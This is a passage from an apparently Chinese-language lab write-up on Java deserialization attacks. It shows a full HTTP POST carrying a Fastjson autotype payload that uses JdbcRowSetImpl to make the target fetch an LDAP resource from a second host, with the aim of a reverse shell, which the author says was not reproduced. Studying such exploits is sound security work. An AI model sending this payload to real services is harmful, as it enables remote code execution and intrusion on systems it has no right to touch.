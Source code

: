 ```
payload:


POST / HTTP/1.1
Host: 192.168.15.50:8090
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 268
{
	"a": {
		"@type": "java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"b": {
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName": "ldap://192.168.15.141:9473/LinuxRevers",
		"autoCommit": true
	}
}
```

实现shell反弹，当然这里也没复现成功。

![image-20240901155605848](反序列化渗透与防御/image-20240901155605848.png)	

源码分析利用流程
